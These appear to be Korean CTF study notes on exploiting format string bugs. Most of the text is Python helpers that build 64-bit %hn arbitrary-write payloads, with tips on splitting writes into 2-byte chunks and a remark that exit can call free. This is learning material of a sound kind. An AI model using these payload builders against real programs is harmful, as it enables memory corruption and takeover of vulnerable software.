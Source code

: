 - exit함수에도 free가 내부에서 호출될수 있었다.
- 다양한 방법의 fsb가 가능함
- 6바이트는 2바이트 씩 $hn으로 쪼개서 넣어줘야함. 그냥 $ln으로 넣으라다가 삽질함
- fsb을 쉽게 사용할 수 있는 함수가 존재

        def fmt(prev , target):
            if prev < target:
                result = target - prev
                return "%" + str(result)  + "c"
            elif prev == target:
                return ""
            else:
                result = 0x10000 + target - prev
                return "%" + str(result) + "c"
        
        def fmt64(offset, addr, value):
            payload = ''
            prev = 0
        
            if (offset == 6 and value == 0):
                payload += '%7$ln' + 'AAA'
                payload += p64(addr)
                return payload
        
            for i in range(3):
                target = (value >> (i * 16)) & 0xffff
                
                if prev < target:
                    payload += '%{}c'.format(target - prev)
                elif prev > target:
                    payload += '%{}c'.format(0x10000 + target - prev)
        
                payload += '%xx$hn'
                prev = target
        
            payload += 'A' * (8 - len(payload) % 8)
        
            for i in range(3):
                idx = payload.find("%xx$hn")
                off = offset + (len(payload) / 8) + i
                payload = payload[:idx] + '%{}$hn'.format(off) + payload[idx+6:]
        
            for i in range(3):
                payload += p64(addr + i * 2)
            
            return payload

    출처 : [https://blog.naver.com/yjw_sz/221870980708](https://blog.naver.com/yjw_sz/221870980708)

- 참고사이트
    1. [https://blog.ba0bab.kr/172](https://blog.ba0bab.kr/172)
    2. [https://m.blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221559719664&proxyReferer=http%3A%2F%2F211.55.147.235%2Ftm%2Fnt%2Fnewchada.das](https://m.blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221559719664&proxyReferer=http%3A%2F%2F211.55.147.235%2Ftm%2Fnt%2Fnewchada.das)